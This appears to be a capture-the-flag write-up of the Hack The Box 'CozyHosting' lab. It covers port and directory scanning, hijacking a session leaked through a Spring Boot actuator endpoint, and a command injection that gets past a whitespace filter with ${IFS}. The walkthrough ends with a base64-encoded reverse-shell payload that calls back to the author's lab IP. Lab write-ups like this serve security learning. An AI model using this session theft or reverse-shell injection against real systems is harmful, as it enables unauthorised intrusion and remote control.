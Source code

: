 # Box: CozyHosting
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.72.147 -v -p- -T4```

```
```
From our scan we have 2 open ports. Port 22 which runs the ssh service and port 80 which runs the http service. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/965c2034-34c9-4493-9664-f7678b428f40)

Lets add that to our ```/etc/hosts``` file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ sudo nano /etc/hosts                               
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ cat /etc/hosts  
127.0.0.1       localhost
127.0.1.1       bl4ck4non-sec

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.72.147 cozyhosting.htb
```
Going back to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a574552a-6f5b-4b27-bcd5-09f9b7e6d23f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2c604329-e04d-4066-b806-8b42dce3d168)

Checking the page source

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/36d5bc0b-1637-43a3-bebb-b84f82fecc5c)

The framework being used here is spring boot. Lets fuzz for directories using ffuf, we'll be using a wordlist specfic to spring boot

command:```ffuf -u "http://cozyhosting.htb/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt  -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ ffuf -u "http://cozyhosting.htb/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt  -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 349ms]
    * FUZZ: actuator

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 284ms]
    * FUZZ: actuator/env/home

[Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 291ms]
    * FUZZ: actuator/env

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 221ms]
    * FUZZ: actuator/env/lang

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 242ms]
    * FUZZ: actuator/env/path

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 337ms]
    * FUZZ: actuator/beans

[Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 284ms]
    * FUZZ: actuator/health

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 294ms]
    * FUZZ: actuator/mappings

[Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 279ms]
    * FUZZ: actuator/sessions

:: Progress: [784/784] :: Job [1/1] :: 138 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
The directory ```/actuator/sessions``` has something interesting hehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8e18003f-d95d-4ef5-a3c8-ae76ad2fa450)

We got login creds

Lets login with this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/94a7b438-f650-41a1-ad35-7bdab6dd5f3d)

oops, this didn't work, since the hash was md5 I tried to crack it, well it didn't work😅.

Inspect element and check out the cookie

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/03ee80ff-fb33-4a94-a170-31c95b05a7b7)

This looks like the value we found earlier, lets replace this with what we found earlier after that we'll refresh the page

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/816b746c-dee6-4810-ab20-3a4d423effd3)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8300a92c-8134-45dd-903d-ca9a069101a6)

We are logged in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c70b0f7e-dbf6-4d4c-a3a8-52c14647e5ee)

We'll capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/62c6e077-e779-40d8-b8dc-49ba8f2a9a4b)

Lets follow the redirection

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/aa9c08ee-7d21-4ee0-ab30-3b5d41b1cc2c)

We got a ```connection timed out``` error.

Lets look for a way to exploit this


# Exploitation

Take a look at the error again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/277b46a8-c5d5-407d-b48c-ad18303fd5f7)

We actually have a potential Command Injection vulnerability here. 

When I was trying some payloads, I found out that there is a whitespace filter

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c4c5d4aa-933d-42f8-8e58-90232ee1ad6c)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb9ff8f6-67b1-493c-871c-7d2ec057075c)

One way we can bypass this is by using ```${IFS}```, so instead of using spaces, we use that. Another thing we'll do is encode our payload in base64, we'll echo this then pipe it to the decode function

First lets base64 encode our paylaod 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/47d2ebd4-2c90-4b93-9860-2e94fd606a25)

cool cool

Now this is the final payload that will help bypass the whitespace function and also spawn a reverse shell.

Ensure you set up your netcat listener before doing this

payload:```;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjEvMTIzNCAwPiYexitx"|base64${IFS}-d|bash;```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1cb31819-7d38-4d81-b62a-cb101356e0b9)

After sending this request, check your netcat listener

























